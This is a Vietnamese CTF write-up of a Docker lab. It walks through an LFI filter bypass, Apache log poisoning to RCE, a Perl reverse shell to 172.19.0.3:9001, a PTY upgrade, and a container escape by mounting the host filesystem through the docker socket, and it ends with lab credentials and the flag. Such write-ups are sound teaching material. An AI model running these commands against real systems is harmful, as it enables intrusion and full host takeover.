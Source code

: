 # Writeup Docker Lab (Docker container escape via docker socket)

## Giao diện bài lab  
![alt text](image.png)

> Trông khá đơn giản nhỉ
Đầu tiên mình recon xem web có những path nào , ở đây mình dùng dirsearch 

![alt text](image-2.png)

Thấy có .htaccess thì web server ở đây là apache và thấy có *"/include"* 

![alt text](image-3.png)  
biết được thêm nó chạy *"Apache/2.2.52 Unbuntu"* và các file này chắc là được include vào 

![alt text](image-4.png)  
và hình như điều đó là đúng , nếu là include file thì maybe LFI(Local File Inclusion), và mình thấy nó *"include\pathfile" vì nãy mình dirsearch thấy nó có folder include*

Thử đọc */etc/passwd* xem sao  
![alt text](image-5.png)  
Có vẻ author đã filter, thử các đường dẫn mà quyền các user bình thường có xem được (Vì apache chạy dưới quyền www-data)  
Ví dụ như  :   /etc/group , /etc/hotst , /etc/motd , /proc/mounts , /proc/net/arp 

![alt text](image-6.png)  
Có vẻ đã bị filter hết rồi :>>>

Thử với :/etc/fstab : , chứa các mount point để khi hệ thống khởi động lên sẽ mount với device 

![alt text](image-8.png)  
Nhưng mà không có thông báo detecd hacking , thì khả năng author filter bằng blacklist   

![alt text](image-9.png)  
Thử *?file=../include/home.php* mà không được thì khả năng là ../ không được thực thi , có vẻ author cũng sẽ filter cái này  
![alt text](image-10.png)  
Thử bypass bằng ..././ và bypass =>  filter "../" bằng "" 

Thử độc /etc/fstab như trên xem được không  ? 

![alt text](image-11.png)  

Tiếp tục với  /etc/mtab là một tập tin trong hệ thống Linux và Unix, chứa thông tin về các file hệ thống được gắn kết (mounted) vào hệ thống tại thời điểm hiện tại. 

![alt text](image-12.png)

Có vẻ web server này đang được chạy trên docker 

Tiếp đó mình tiến hành fuzzing thử xem :
Payload mình lấy ở đây :  
[Payload](https://gist.github.com/SleepyLctl/63a2da730a3d5abce5013f0f510b1fe2)

Sau khi chạy 1 hồi thì mình thấy mình có thể đọc được file log của apache => Từ đó mình có thể RCE qua đây  
![alt text](image-13.png)

![alt text](image-14.png)  
![alt text](image-15.png)  
mình đã thực thi được lệnh giờ thì tìm flag thôi 

```js
find / -type f -name flag.txt
```

![alt text](image-16.png)

![alt text](image-17.png) 

Tiến hành reverse shell 
kiểm tra xem nó hỗ trợ các loại nào 
![alt text](image-18.png)

Payload reverse shell  
```js
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"172.19.0.3:9001");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

![alt text](image-20.png)

![alt text](image-21.png)
Chúng ta đang dứới quyền www-data của apache 

Kiểm tra tiếp container này đang hỗ trợ loại shell nào ? 
```js
cat /etc/shells
```
![alt text](image-22.png)  

Shell của mình ở đây bị hạn chế interact nên mình sẽ tìm cách lên fully iteractive shell 

1 . FULL TTY with python 

```js 
//kiểm tra xem có python ở trong container hay không 
which python python2 python3 
```

ok ở đây mình có *python3* 
![alt text](image-23.png)

```js 
python3 -c 'import pty;pty.spawn("/bin/bash")'; #spawn a python psuedo-shell

```

![alt text](image-24.png)

Để escape container thì mình tìm thấy vector là docker socket 

Kiểm tra *mount -l | grep sock "  
![alt text](image-25.png)  

![alt text](image-26.png)  
Thử dùng docker thì báo ko có quyền vào file docker.sock 

![alt text](image-27.png)   
Kiểm tra thấy thì có group docker được sử dụng , tiến hành tìm kiếm để lên được quyền docker 

```js
cat /etc/group | grep docker  
```

![alt text](image-28.png) 
và có thằng user_docker là thuộc vào group này 

Tìm kiếm loang quanh 1 hồi thì mình thấy file này trong container 
```js 
username: user_docker 
password: qaz@123
```
mình tiến hành đăng nhập vào user_docker 
```js
// kiểm tra xem 
docker ps  
```
![alt text](image-29.png)
Có thể thấy cái web mình đang run là 1 container và mình đã có thể nói chuyện với docker daemon của host
```js 
docker run -it -v /:/host/  ubuntu bash 
```
Câu lệnh  trên đã mount toàn bộ filesystem của host vào trong /host của container mới 

![alt text](image-30.png) 

Lấy flag thôi  
![alt text](image-31.png)

# FLAG 
```
WhiteHat{dinkkkk_capppppp_hackerrrrrrr82738923723897}
```